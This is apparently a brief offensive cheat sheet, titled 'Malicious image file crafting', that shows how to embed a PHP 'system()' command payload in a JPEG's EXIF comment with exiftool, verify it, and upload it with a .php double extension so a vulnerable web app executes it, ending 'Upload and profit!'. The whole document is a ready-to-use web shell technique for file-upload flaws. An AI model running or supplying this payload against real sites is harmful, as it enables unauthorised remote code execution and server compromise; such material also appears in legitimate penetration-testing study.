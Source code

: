 # Malicious image file crafting

### 1) .jpg

 - exiftool -Comment="<?php system(\"COMMAND\");?>" payload.jpg

 - exiftool payload.jpg (Verify that we injected PHP code in the malicious .jpg file)

 - Upload and profit! (Don't forget to put .php as the second extension for the PHP code to run. Overall, it depends on the web app)
